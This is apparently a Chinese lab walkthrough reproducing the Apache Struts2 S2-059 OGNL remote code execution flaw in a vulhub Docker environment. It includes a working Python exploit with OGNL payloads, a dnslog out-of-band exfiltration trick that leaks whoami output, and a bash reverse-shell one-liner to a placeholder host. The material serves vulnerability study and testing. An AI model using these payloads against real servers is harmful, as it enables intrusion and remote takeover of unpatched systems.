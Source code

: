 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Yt_9troK0uDW2XHxlfGKjg)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)

> **文章来****源： Admin Team**

s2-059
------

### `Struts2`介绍

是一个基于 MVC 设计模式的 Web 应用框架，它本质上相当于一个 servlet，在 MVC 设计模式中，`Struts2`作为控制器 (Controller) 来建立模型与视图的数据交互。Struts 2 是 Struts 的下一代产品，是在 struts 1 和 WebWork 的技术基础上进行了合并的全新的 Struts 2 框架。其全新的 Struts 2 的体系结构与 Struts 1 的体系结构差别巨大。Struts 2 以 WebWork 为核心，采用拦截器的机制来处理用户的请求，这样的设计也使得业务逻辑控制器能够与 ServletAPI 完全脱离开，所以 Struts 2 可以理解为 WebWork 的更新产品。虽然从 Struts 1 到 Struts 2 有着非常大的变化，但是相对于 WebWork，Struts 2 的变化很小。

### st2-059 介绍

2020 年 8 月 13 日, Apache 官方发布了一则公告, 该公告称 Apache `Struts2`使用某些标签时, 会对标签属性值进行二次表达式解析, 当标签属性值使用了 %{skillName} 并且 skillName 的值用户可以控制, 就会造成 OGNL 表达式执行。

### 漏洞复现

vulunmb 拉环境

> vulhub/`Struts2`/s2-059 docker-compose up -d  // 启动漏洞环境![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaqMicqTJ9Pl2x0n7qWicJa74wUnia421LeYiadPn66oicM8Pmic5cTU9ajJnJA/640?wx_fmt=png)

图 1. docker 启动漏洞环境

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaqw8La1icrg0yLf6SzNlATeIibEXf3Hwr1VHIXNhBrRR2ficWL0oiaGApFnA/640?wx_fmt=png)

图 2. s2-059 漏洞环境

> EXP 地址: https://vulhub.org/#/environments/`Struts2`/s2-059/ 官网给的 exp 是没有回显的

```
import requestsurl = "http://127.0.0.1:8080"data1 = {    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"}data2 = {    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"}res1 = requests.post(url, data=data1)# print(res1.text)res2 = requests.post(url, data=data2)# print(res2.text)
```

可以进行修改 修改为 ping xxx.dnslog.cn 这个可以直接执行坑点 由于是 java 的需要进行编码 将其名带外输出

> `whoami`.koeep8.dnslog.cn 在线编码：http://www.jackson-t.ca/runtime-exec-payloads.html![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaqFo7RA5xv2037f14icnPd1aJgicmExry9CrGD8G23RtFeX7WvlpkHCn1A/640?wx_fmt=png)

图 3. base64 编码截图

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaq07E9ic9DcsoE7TaRQuJOMNWUBYGaMwC6bqy6yy7zQ9mJsSwZquFiawPg/640?wx_fmt=png)攻击测试![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaqvic1Ue5F0ZL5ZoS0Tu3IbQsExOx7NsRpKKof7Kp2icOgOOjpJZ88WwAQ/640?wx_fmt=png)

### 反弹 shell

> bash -i >& /dev/tcp/Your ip/Your port 0>&1

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaqCrs9ay2qwOpM6QebXUUWd9ibOqAaHB7eTVqTwYF7rDibKobYlvGFjLfQ/640?wx_fmt=png)

base 编码随后替换

![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nacib7rHjsibFVDa08YibfaOiaqHcYmX5h7ALx6X0aJqkuXSI5y9ycPt2JoOFK1ibkeW4R0SQDsXV0ep8A/640?wx_fmt=png)

图 3. 反弹 shell 成功

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)